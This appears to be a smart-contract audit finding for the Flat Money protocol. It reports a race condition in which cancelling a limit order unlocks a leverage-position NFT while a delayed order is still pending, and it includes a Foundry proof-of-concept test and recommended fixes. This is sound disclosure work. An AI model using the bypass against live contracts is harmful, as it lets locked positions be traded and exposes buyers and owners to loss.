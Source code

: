 Rapid Plastic Armadillo

medium

# Race Condition: Shared write access to `isLocked` allows NFTs with open announcements to become tradeable.

## Summary

The [`LimitOrder`](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol) and [`DelayedOrder`](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/DelayedOrder.sol) modules both share competing write access to the [`isLocked`](https://github.com/sherlock-audit/2023-12-flatmoney/blob/bba4f077a64f43fbd565f8983388d0e985cb85db/flatcoin-v1/src/LeverageModule.sol#L345) state of a [`LeverageModule`](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LeverageModule.sol) NFT, and rely upon mutually-exclusive sources of truth to decide at what point in time they should gate transferability.

When a caller submits multiple open announcements for a position in parallel, such as one from [`LimitOrder`](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol) and another from the [`DelayedOrder`](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/DelayedOrder.sol) module, the first announcement to terminate will inadvertently leave the affected position in a transferable state, even whilst the competing announcement is still pending finalization.

This undermines a protocol invariant which insists that a [`LeverageModule`](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LeverageModule.sol) position cannot be transferred whilst an active announcement has not been resolved.

## Vulnerability Detail

Both the [`LimitOrder`](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol) and [`DelayedOrder`](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/DelayedOrder.sol) modules intend to prevent position tokens from being transferred whilst an announcement intent is in progress:

```solidity
// Lock the NFT belonging to this position so that it can't be transferred to someone else.
ILeverageModule(vault.moduleAddress(FlatcoinModuleKeys._LEVERAGE_MODULE_KEY)).lock(tokenId);
```

These protections are implemented for a couple of reasons:

1. A pending intent adding supplementary margin to a leverage position could still be executed even after the token was traded on secondary marketplaces, resulting in unintentional loss for the original owner.
2. Trade safety is ensured in that the terms of the underlying collateral cannot be manipulated due to a seller's pre-existing intent after sale has concluded.

However, due to competing writes between  [`LimitOrder`](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol) and [`DelayedOrder`](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/DelayedOrder.sol), these protections can be circumvented:

```solidity
function test_sherlock_subvertTokenTransfers() public {

    vm.startPrank(alice);

    uint256 stableDeposit = 100e18;
    uint256 collateralPrice = 1000e8;

    announceAndExecuteDeposit({
        traderAccount: alice,
        keeperAccount: keeper,
        depositAmount: stableDeposit,
        oraclePrice: collateralPrice,
        keeperFeeAmount: 0
    });
    
    uint256 tokenId = announceAndExecuteLeverageOpen({
        traderAccount: alice,
        keeperAccount: keeper,
        margin: 10e18,
        additionalSize: 30e18,
        oraclePrice: collateralPrice,
        keeperFeeAmount: 0
    });

    delayedOrderProxy.announceLeverageAdjust(
        tokenId,
        0 /* marginAdjustment */,
        1e18 /* additionalSizeAdjustment */,
        1e21 /* fillPrice */,
        mockKeeperFee.getKeeperFee()
    );

    vm.expectRevert("ERC721LockableEnumerableUpgradeable: token is locked");
    leverageModProxy.safeTransferFrom(alice, address(0x69), tokenId);

    limitOrderProxy.announceLimitOrder({
        tokenId: tokenId,
        priceLowerThreshold: 1,
        priceUpperThreshold: type(uint256).max - 1
    }) /* unfulfillable */;

    vm.expectRevert("ERC721LockableEnumerableUpgradeable: token is locked");
    leverageModProxy.safeTransferFrom(alice, address(0x69), tokenId);

    // Cancel the order.
    limitOrderProxy.cancelLimitOrder(tokenId);

    // Now the token can be transferred:
    leverageModProxy.safeTransferFrom(alice, address(0x69), tokenId);

    assertEq(leverageModProxy.ownerOf(tokenId), address(0x69));

    vm.stopPrank();

}
```

## Impact

Reduction in trade safety.

## Code Snippet

```solidity
/// @notice Locks the ERC721 token representing the leverage position.
/// @param _tokenId The ERC721 token ID of the leverage position.
function lock(uint256 _tokenId) public onlyAuthorizedModule {
    _lock(_tokenId);
}

/// @notice Unlocks the ERC721 token representing the leverage position.
/// @param tokenId The ERC721 token ID of the leverage position.
function unlock(uint256 tokenId) public onlyAuthorizedModule {
    _unlock(tokenId);
}
```

## Tool used

Foundry

## Recommendation

There are a couple of recommendations:

1. For all announcements which result in an unlocked position, ensure the position is not already locked when initially creating the announcement.
2. Use a shared context between all writers to [`isLocked`](https://github.com/sherlock-audit/2023-12-flatmoney/blob/bba4f077a64f43fbd565f8983388d0e985cb85db/flatcoin-v1/src/LeverageModule.sol#L345) to ensure cross-contract synchronization.
